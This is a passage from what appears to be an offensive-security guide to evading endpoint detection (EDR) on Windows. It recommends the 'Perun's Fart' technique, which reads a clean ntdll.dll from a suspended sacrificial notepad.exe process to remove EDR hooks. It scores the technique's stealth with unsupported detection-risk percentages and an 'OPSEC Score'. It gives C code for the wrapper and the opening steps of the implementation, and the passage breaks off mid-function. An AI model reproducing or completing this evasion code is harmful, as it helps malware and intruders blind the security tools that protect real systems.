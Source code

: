 **Detection Issue**: EDRs hook `NtReadFile` and monitor for reads of `ntdll.dll`:
```c
// EDR hook in NtReadFile
if (fileName == "ntdll.dll") {
    LogAlert("UNHOOKING_ATTEMPT", processId, callStack);
    BlockOperation();
}
```

### Pattern 2: Perun's Fart (Memory-Based Unhooking) ⭐ RECOMMENDED

**Source**: https://github.com/plackyhacker/Peruns-Fart

**Concept**: Create a sacrificial process in suspended state, read clean ntdll.dll from the sacrificial process's memory (NOT from disk), and copy clean syscall stubs to the current process. This defeats EDR file monitoring.

**Critical Innovation**: **No disk reads** - clean ntdll is read from process memory via `ReadProcessMemory`, not `NtReadFile`. EDRs don't typically monitor inter-process memory reads as aggressively as file reads.

**Advantages**:
- **Bypasses NtReadFile monitoring** (major EDR detection vector eliminated)
- Clean ntdll guaranteed (sacrificial process not hooked yet)
- No disk I/O audit logs
- Detection risk: 5-10% (vs 15-20% for disk-based)

**Disadvantages**:
- More complex implementation (PEB traversal required)
- Creates suspicious child process (mitigated by using common process like notepad.exe)
- Process creation may be monitored (but not as heavily as ntdll reads)

**OPSEC Score**: 8.5/10

**Full Implementation Pattern**:
```c
#include "peruns_fart.h"

// Execute Perun's Fart unhooking
UNHOOK_CONTEXT ctx;
PerunsFart_Initialize(&ctx, L"C:\\Windows\\System32\\notepad.exe", TRUE);

if (PerunsFart_Execute(&ctx)) {
    printf("Unhooking successful - %d functions restored\n", ctx.dwUnhookedCount);
}

PerunsFart_Cleanup(&ctx);
```

**Detailed Workflow**:
```c
BOOL PerunsFart_Execute(PUNHOOK_CONTEXT pContext) {
    // Step 1: Create sacrificial process (suspended)
    STARTUPINFO si = {sizeof(si)};
    PROCESS_INFORMATION pi = {0};

    CreateProcessW(L"C:\\Windows\\System32\\notepad.exe", NULL, NULL, NULL,
                  FALSE, CREATE_SUSPENDED | CREATE_NO_WINDOW, NULL, NULL, &si, &pi);

    pContext->hSacrificialProcess = pi.hProcess;
    pContext->hSacrificialThread = pi.hThread;

    // Step 2: Find ntdll.dll in sacrificial process memory (via PEB)
    PROCESS_BASIC_INFORMATION pbi = {0};
    NtQueryInformationProcess(pContext->hSacrificialProcess,
                             ProcessBasicInformation, &pbi, sizeof(pbi), NULL);

```
